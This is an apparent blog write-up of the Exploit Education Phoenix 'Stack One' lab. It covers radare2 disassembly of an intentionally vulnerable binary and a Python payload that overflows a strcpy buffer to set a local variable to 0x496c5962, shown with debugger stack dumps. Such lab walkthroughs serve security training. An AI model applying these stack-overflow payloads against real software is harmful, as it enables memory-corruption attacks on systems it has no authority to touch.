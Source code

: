 ```yaml
---
layout: post
title:  "Phoenix Stack One"
categories: exploit-education phoenix x86
---
```


Stack One is very much like the first level with a few minor exceptions, which will be introduced shortly.

The use of `rabin2` is essential to understand a little bit about the binary.

{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-one
arch     x86
baddr    0x8048000
binsz    3651
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

So as to avoid repetition, the information about the binary is almost identical to that of the previous level. To sum up, this is a 32-bit Linux ELF with no protection against stack-based buffer overflows, among others.

Time to disassemble the binary with `radare2`.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-one
{% endhighlight %}

{% highlight nasm %}
[0x08048380]> aas
Cannot analyze at 0x080485f0
[0x08048380]> afl
0x080482fc    1 17           sym._init
0x080484d0    7 277  -> 112  sym.frame_dummy
0x080485b0    5 49           sym.__do_global_ctors_aux
0x080485e1    1 12           sym._fini
0x08048450    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   47 524  -> 625  sym..interp
0x08048380    1 62           entry0
0x08048370    1 6            sym.imp.__libc_start_main
0x080486f8    1 14           loc.__GNU_EH_FRAME_HDR
0x08048714    3 34           sym..eh_frame
0x08048750    1 44           obj.__EH_FRAME_BEGIN
0x080483c0    4 49   -> 40   sym.deregister_tm_clones
0x08048515    6 145          main
0x08048340    1 6            sym.imp.puts
0x08048350    1 6            sym.imp.errx
0x08048320    1 6            sym.imp.strcpy
0x08048330    1 6            sym.imp.printf
0x08048360    1 6            sym.imp.exit
[0x08048380]> s main
[0x08048515]> pdf
/ (fcn) main 145
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x80483b4
|           0x08048515      8d4c2404       lea ecx, [arg_4h]
|           0x08048519      83e4f0         and esp, 0xfffffff0
|           0x0804851c      ff71fc         push dword [ecx - 4]
|           0x0804851f      55             push ebp
|           0x08048520      89e5           mov ebp, esp
|           0x08048522      53             push ebx
|           0x08048523      51             push ecx
|           0x08048524      83ec50         sub esp, 0x50
|           0x08048527      89cb           mov ebx, ecx
|           0x08048529      83ec0c         sub esp, 0xc
|           0x0804852c      68f0850408     push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x80485f0 ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"
|           0x08048531      e80afeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048536      83c410         add esp, 0x10
|           0x08048539      833b01         cmp dword [ebx], 1
|       ,=< 0x0804853c      7f0f           jg 0x804854d
|       |   0x0804853e      83ec08         sub esp, 8
|       |   0x08048541      683c860408     push str.specify_an_argument__to_be_copied_into_the__buffer ; 0x804863c ; "specify an argument, to be copied into the \"buffer\""
|       |   0x08048546      6a01           push 1                      ; 1
|       |   0x08048548      e803feffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x0804854d      c745f4000000.  mov dword [var_ch], 0
|           0x08048554      8b4304         mov eax, dword [ebx + 4]
|           0x08048557      83c004         add eax, 4
|           0x0804855a      8b00           mov eax, dword [eax]
|           0x0804855c      83ec08         sub esp, 8
|           0x0804855f      50             push eax
|           0x08048560      8d45b4         lea eax, [var_4ch]
|           0x08048563      50             push eax
|           0x08048564      e8b7fdffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
|           0x08048569      83c410         add esp, 0x10
|           0x0804856c      8b45f4         mov eax, dword [var_ch]
|           0x0804856f      3d62596c49     cmp eax, 0x496c5962
|       ,=< 0x08048574      7512           jne 0x8048588
|       |   0x08048576      83ec0c         sub esp, 0xc
|       |   0x08048579      6870860408     push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value ; 0x8048670 ; "Well done, you have successfully set changeme to the correct value"
|       |   0x0804857e      e8bdfdffff     call sym.imp.puts           ; int puts(const char *s)
|       |   0x08048583      83c410         add esp, 0x10
|      ,==< 0x08048586      eb14           jmp 0x804859c
|      |`-> 0x08048588      8b45f4         mov eax, dword [var_ch]
|      |    0x0804858b      83ec08         sub esp, 8
|      |    0x0804858e      50             push eax
|      |    0x0804858f      68b4860408     push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962 ; 0x80486b4 ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"
|      |    0x08048594      e897fdffff     call sym.imp.printf         ; int printf(const char *format)
|      |    0x08048599      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x8048586
|      `--> 0x0804859c      83ec0c         sub esp, 0xc
|           0x0804859f      6a00           push 0
\           0x080485a1      e8bafdffff     call sym.imp.exit           ; void exit(int status)
{% endhighlight %}

Below is the output of `agf`, which outputs the basic blocks function graph.

{% highlight nasm %}
[0x08048515]> agf
[0x08048515]>  # int main (int argc, char **argv, char **envp);
                   .---------------------------------------------------------------------------------------.
                   |  0x8048515                                                                            |
                   | (fcn) main 145                                                                        |
                   |   int main (int argc, char **argv, char **envp);                                      |
                   | ; var int32_t var_4ch @ ebp-0x4c                                                      |
                   | ; var int32_t var_ch @ ebp-0xc                                                        |
                   | ; arg int32_t arg_4h @ esp+0x4                                                        |
                   | ; DATA XREF from entry0 @ 0x80483b4                                                   |
                   | lea ecx, [arg_4h]                                                                     |
                   | and esp, 0xfffffff0                                                                   |
                   | push dword [ecx - 4]                                                                  |
                   | push ebp                                                                              |
                   | mov ebp, esp                                                                          |
                   | push ebx                                                                              |
                   | push ecx                                                                              |
                   | sub esp, 0x50                                                                         |
                   | mov ebx, ecx                                                                          |
                   | sub esp, 0xc                                                                          |
                   | ; sym..rodata                                                                         |
                   | ; 0x80485f0                                                                           |
                   | ; "Welcome to phoenix/stack-one, brought to you by https://exploit.education"         |
                   | push str.Welcome_to_phoenix_stack_one__brought_to_you_by_https:__exploit.education    |
                   | ; int puts(const char *s)                                                             |
                   | call sym.imp.puts;[oa]                                                                |
                   | add esp, 0x10                                                                         |
                   | cmp dword [ebx], 1                                                                    |
                   | jg 0x804854d                                                                          |
                   `---------------------------------------------------------------------------------------'
                           f t
                           | |
                           | '--------------------------------------------.
    .----------------------'                                              |
    |                                                                     |
.----------------------------------------------------------------.    .---------------------------------------------.
|  0x804853e                                                     |    |  0x804854d                                  |
| sub esp, 8                                                     |    | mov dword [var_ch], 0                       |
| ; 0x804863c                                                    |    | mov eax, dword [ebx + 4]                    |
| ; "specify an argument, to be copied into the \"buffer\""      |    | add eax, 4                                  |
| push str.specify_an_argument__to_be_copied_into_the__buffer    |    | mov eax, dword [eax]                        |
| ; 1                                                            |    | sub esp, 8                                  |
| push 1                                                         |    | push eax                                    |
| ; void errx(int eval)                                          |    | lea eax, [var_4ch]                          |
| call sym.imp.errx;[ob]                                         |    | push eax                                    |
`----------------------------------------------------------------'    | ; char *strcpy(char *dest, const char *src) |
                                                                      | call sym.imp.strcpy;[oc]                    |
                                                                      | add esp, 0x10                               |
                                                                      | mov eax, dword [var_ch]                     |
                                                                      | cmp eax, 0x496c5962                         |
                                                                      | jne 0x8048588                               |
                                                                      `---------------------------------------------'
                                                                              f t
                                                                              | |
                                                                              | '-------------------.
              .---------------------------------------------------------------'                     |
              |                                                                                     |
          .--------------------------------------------------------------------------------.    .------------------------------------------------------------------------------.
          |  0x8048576                                                                     |    |  0x8048588                                                                   |
          | sub esp, 0xc                                                                   |    | mov eax, dword [var_ch]                                                      |
          | ; 0x8048670                                                                    |    | sub esp, 8                                                                   |
          | ; "Well done, you have successfully set changeme to the correct value"         |    | push eax                                                                     |
          | push str.Well_done__you_have_successfully_set_changeme_to_the_correct_value    |    | ; 0x80486b4                                                                  |
          | ; int puts(const char *s)                                                      |    | ; "Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n"       |
          | call sym.imp.puts;[oa]                                                         |    | push str.Getting_closer__changeme_is_currently_0x_08x__we_want_0x496c5962    |
          | add esp, 0x10                                                                  |    | ; int printf(const char *format)                                             |
          | jmp 0x804859c                                                                  |    | call sym.imp.printf;[od]                                                     |
          `--------------------------------------------------------------------------------'    | add esp, 0x10                                                                |
              v                                                                                 `------------------------------------------------------------------------------'
              |                                                                                     v
              |                                                                                     |
              '------------------------------------------------------------------.                  |
                                                                                 | .----------------'
                                                                                 | |
                                                                           .-----------------------------------.
                                                                           |  0x804859c                        |
                                                                           | ; CODE XREF from main @ 0x8048586 |
                                                                           | sub esp, 0xc                      |
                                                                           | push 0                            |
                                                                           | ; void exit(int status)           |
                                                                           | call sym.imp.exit;[oe]            |
                                                                           `-----------------------------------'
{% endhighlight %}

Unlike the previous level, the input is not read from STDIN, but, rather, is passed as an argument to the binary. Also, the `gets` call is replaced by `strcpy`, which also allows stack-based buffer overflows considering that it does not restrict the size of bytes to be copied.

The buffer's size is still 64 bytes and we need to overflow the stack so that the value of the local variable `var_ch` is overwritten with `0x496c5962`.

Here follows a `python3` script to create the exploit:

{% highlight python %}
#!/usr/bin/env python3
print("X"*64+"\x62\x59\x6c\x49")
{% endhighlight %}

{% highlight shell %}
$ ./myScript.py > pattern
{% endhighlight %}

Now, the binary can be debugged as follows:

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-one `cat pattern`
{% endhighlight %}

In order to verify the stack contents before and after the `strcpy` call, a breakpoint is needed at the address of that call.

{% highlight nasm %}
[0xf7f20d4b]> aas
Cannot analyze at 0x080485f0
[0xf7f20d4b]> db 0x08048564
[0xf7f20d4b]> dc
Welcome to phoenix/stack-one, brought to you by https://exploit.education
hit breakpoint at: 8048564
{% endhighlight %}

The value of `var_ch` before the call is:

{% highlight nasm %}
[0xf7eed929]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x00000000                                   ....
{% endhighlight %}

The stack before the call:

{% highlight nasm %}
[0x08048564]> dr
eax = 0xffa8ae6c
ebx = 0xffa8aed0
ecx = 0xffa8ada0
edx = 0x00000000
esi = 0xffa8af44
edi = 0x00000002
esp = 0xffa8ae50
ebp = 0xffa8aeb8
eip = 0x08048564
eflags = 0x00000292
oeax = 0xffffffff
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x0000005c  ............\...
0xffa8ae70  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8ae80  0x00000011 0xf7f5819c 0x00000000 0x080482cc  ................
0xffa8ae90  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffa8aea0  0x00000000 0x00000000 0x00000000 0x00000000  ................
{% endhighlight %}

and after the call:

{% highlight nasm %}
[0x08048564]> dso
hit breakpoint at: 8048569
[0x08048564]> px/24xw 0xffa8ae50
0xffa8ae50  0xffa8ae6c 0xffa8c5cb 0x0000007d 0x00000010  l.......}.......
0xffa8ae60  0x080482fc 0x080485e1 0x00000000 0x58585858  ............XXXX
0xffa8ae70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8ae90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xffa8aea0  0x58585858 0x58585858 0x58585858 0x496c5962  XXXXXXXXXXXXbYlI
{% endhighlight %}

Note that the value of the local variable `var_ch` has been overwritten, as is shown below:

{% highlight nasm %}
[0x08048564]> px/xw 0xffa8aeb8-0xc
0xffa8aeac  0x496c5962                                   bYlI
{% endhighlight %}

Continuing with the execution:

{% highlight plaintext %}
[0x08048564]> dc
Well done, you have successfully set changeme to the correct value
{% endhighlight %}

## Conclusion
This level has many similarities with the first level, but with one noteable difference. That is, the objective was not to simply overwrite the value of a local variable, but to overflow the stack such that the variable contains a specific value.